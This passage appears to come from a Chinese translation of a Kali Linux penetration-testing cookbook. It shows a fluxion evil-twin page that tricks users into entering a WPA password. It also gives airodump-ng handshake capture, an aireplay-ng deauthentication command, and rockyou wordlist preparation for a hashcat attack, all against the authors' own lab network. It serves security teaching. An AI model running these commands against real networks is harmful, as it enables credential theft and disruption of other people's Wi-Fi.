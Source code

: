 1.  当用户看到此屏幕时，他们很可能会输入原始 SSID 的 WPA 密码（在我们的案例中是`Kali_Five`），然后点击提交。当他们这样做时，fluxion 将验证该密码是否为预共享密钥，如果是，fluxion 的进程将停止，你将看到类似以下的屏幕：

![](img/2bb3b8b0-9638-47f3-95a4-23014e5bcd95.png)识别出的 WPA 密码

1.  如果你认为网络用户不太可能被欺骗提供他们的凭据，你也可以使用`hashcat`对 WPA 密钥执行字典攻击或暴力破解攻击。为此，我们将使用与*破解 WEP 加密*部分相同的数据收集过程，从`Kali_Five` SSID 收集数据：

```
root@kali:~/wireless# airodump-ng -c 11 --bssid OE:18:0A:36:E1:C0 -w KaliCookbook_8.4 wlan0
```

1.  为了加速数据收集过程并捕获更多的握手信息，我们将使用以下命令行向连接到我们 BSSID 的客户端发送 100 次去认证尝试：

```
root@kali:~/wireless# aireplay-ng --deauth 100 -a OE:18:0A:36:E1:C0 -c 38:59:F9:5F:80:A9 wlan0
```

1.  允许`airodump-ng`终端在其自己的终端中继续运行。

1.  Kali Linux 包括一个可以与`hashcat`一起使用的大型词典。Hashcat 是一个多功能的密码暴力破解工具，支持大量格式。在一个单独的终端中，导航到以下目录并解压`rockyou.txt.gz`词典：

```
root@kali:~/wireless# cd /usr/share/wordlists root@kali:usr/share/wordlists# gunzip rockyou.txt.gz 
```

在写本文时，`rockyou.txt`包含了 14,344,392 个不同的词汇。

1.  停止`airodump-ng`进程，并找到`airodump`生成的`cap`文件：

![](img/30af6f54-0eba-4d58-9745-c5065cfa5a8a.png)airodump-ng 过程生成的文件
